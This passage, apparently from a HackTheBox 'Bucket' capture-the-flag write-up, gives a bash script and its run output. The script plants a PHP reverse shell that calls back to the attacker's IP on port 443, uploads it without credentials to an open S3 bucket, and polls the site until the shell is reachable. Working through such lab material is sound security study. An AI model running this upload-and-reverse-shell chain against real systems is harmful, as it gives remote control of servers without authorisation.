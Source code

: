 ```bash
shell="shell$RANDOM.php"

# Prepare revserve-shell
cp /usr/share/webshells/php/php-reverse-shell.php shell.php
sed -i "s/127.0.0.1/$IP/g" shell.php
sed -i "s/1234/443/g" shell.php

# Upload shell
echo -e "\e[34m[*]\e[39m Uploading shell..."
aws --endpoint-url http://s3.bucket.htb/ s3 cp $(pwd)/shell.php "s3://adserver/images/$shell" --no-sign-request

echo -e "\e[34m[*]\e[39m Trying to access image now..."

code=404
# Try to access image on website
while [ "$code" -eq 404 ];
do
	#https://superuser.com/a/442395	
	code=$(curl --max-time 2 -w "%{http_code}" -s -o /dev/null "http://bucket.htb/images/$shell")
	# Code cannot be 000 => timeout (increase max-time to 3 seconds)
	while [[ $code -eq 000 ]]; do code=$(curl --max-time 3 -w "%{http_code}" -s -o /dev/null "http://bucket.htb/images/$shell"); done

	if [[ $code -eq 200 ]]; then
		echo -e "\e[34m[*]\e[39m http://bucket.htb/images/$shell : \e[92m$code\e[39m"
	else
		echo -e "\e[34m[*]\e[39m http://bucket.htb/images/$shell : \e[93m$code\e[39m"
	fi
	#sleep 0.1
done

echo -e "\e[92m[+]\e[39m Reverse-shell should be available now!"
# Cleanup
rm shell.php
```

If we now run the script, we get following output:

```bash
root@darkness:~# bash exploit.sh 

##################
# Bucket Exploit #
# By Chr0x6eOs   #
##################

[*] Uploading shell...
upload: ./shell.php to s3://adserver/images/shell15720.php    
[+] File successfully uploaded!

[*] Trying to access image now...
[*] http://bucket.htb/images/shell15720.php : 404
[*] http://bucket.htb/images/shell15720.php : 404
[*] http://bucket.htb/images/shell15720.php : 404
[*] http://bucket.htb/images/shell15720.php : 404
[*] http://bucket.htb/images/shell15720.php : 200
[+] Reverse-shell should be available now!
```
